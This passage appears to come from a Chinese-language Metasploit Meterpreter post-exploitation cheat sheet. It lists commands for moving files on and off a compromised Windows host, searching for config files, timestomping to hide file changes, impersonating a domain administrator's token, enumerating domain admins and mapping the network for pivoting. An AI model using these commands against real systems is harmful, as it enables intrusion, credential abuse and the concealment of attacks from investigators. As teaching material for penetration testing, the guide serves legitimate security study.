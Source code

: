 **上传和下载**
```bash
upload <file> <destination>         # 上传文件到 Windows 主机
# 注意:使用 -r 参数可以递归上传上传目录和文件

download <file> <path to save>      # 从 windows 主机下载文件
# 注意:Windows 路径要使用双斜线
# 如果我们需要递归下载整个目录包括子目录和文件,我们可以使用 download -r 命令
```

**搜索文件**
```bash
search -f *config*
```

**改变文件时间**
```bash
timestomp -v a.txt                  # 查看 a 的时间戳
timestomp a.txt -f b.txt            # 使用 b 的时间覆盖 a 的时间
```

### 横向

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token <Username>        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

**域管理员嗅探**

```bash
use post/windows/gather/enum_domain
set session 1
exploit
```

### 端口转发和内网代理

**网络命令**
```bash
Ipconfig/ifconfig                   # 查看目标主机 IP 地址;
arp –a                              # 用于查看高速缓存中的所有项目;
route                               # 打印路由信息;
netstat -na                         # 可以显示所有连接的端口
```

其中路由信息对于渗透者来说特有用,因为攻击机处于外网,目标主机处于内网,他们之间是不能通信的,故需要添加路由来把攻击机的 IP 添加到内网里面,这样我们就可以横扫内网,就是所谓的内网代理.
